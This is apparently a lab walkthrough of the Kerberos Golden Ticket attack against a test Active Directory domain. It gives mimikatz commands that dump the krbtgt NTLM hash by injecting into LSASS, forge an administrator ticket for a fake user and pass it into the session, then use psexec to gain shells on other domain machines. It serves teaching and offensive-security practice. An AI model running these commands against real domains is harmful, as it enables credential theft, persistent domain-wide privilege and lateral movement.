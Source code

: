 # Golden Ticket LAB DEMO

Since Golden Ticket is a post compromise attack, we need to have valid credentials of a domain user preferably admin. We already compromised the Administrator using the previous attacks and we can get a shell on JUSTICE-DC using his credentials.

For a successful Golden ticket, first thing we need to compromise is the `krbtgt` account. Once we get the shell, we can load `mimikatz` tool to dump the NTLM hashes and other  useful information about this account.

### STEP 1: COMPROMISE KRBTGT ACCOUNT

To begin a Golden ticket attack, we need to gain control over the KDC which means we need to find the credentials and compromise `KRBTGT` account.

We mainly need two details, first the NTLM hash of `KRBTGT` account and then the Service ID (SID) of the domain. We will use `mimikatz` to extract this information out of DC.

```bash
lsadump::lsa /inject /name:krbtgt
```

`lsadump::lsa` : LSA Server to retrieve SAM/AD hashes
`/inject` : Inject LSASS to extract credentials
`/name` : account name for target user account

![[krbtgtdetals.png]]

#### STEP 2: FORGE KERBEROS TICKETS:

After compromising the `krbtgt` password hash, we can use it to create forged Kerberos tickets. For the attack we will create a Kerberos ticket-granting ticket (TGT) for a user account that doesn’t actually exist in the directory.

```bash
kerberos::golden /user:fakeuser /domain:HERO.local /sid:S-1-5-21-3383309996-1560293891-592623117 /krbtgt:650c0550568e8c32aacbb2b4e4229fda /id:500 /ptt
```

`/user:`  The username to be impersonated (can be a fake one)
`/domain:` The FQDN of the target domain
`/sid:`  the SID of the domain
`/krbtgt:` the NTLM hash for the domain KDC service account (KRBTGT)
`/id:` the user RID. use 500 for administrator
`/ptt` stands for pass the ticket. Indicates that the forged ticket should be injected into the current session instead of being written to a file.

![[goldenticket.png]]

### STEP 3: USING THE FORGED TICKETS:

After generating a ticket, we can open a new CMD with the privileges of the forget ticket using the following command and we can use it to access all other machines on the domain. 

```bash
misc::cmd
```

We can also use tools like `psexec`,  use it to gain a shell to any other machine and run commands on that machine. The following command will allow to remotely connect to BATMAN machine and execute commands on it from our local machine.

```bash
psexec.exe //BATMAN cmd.exe
```


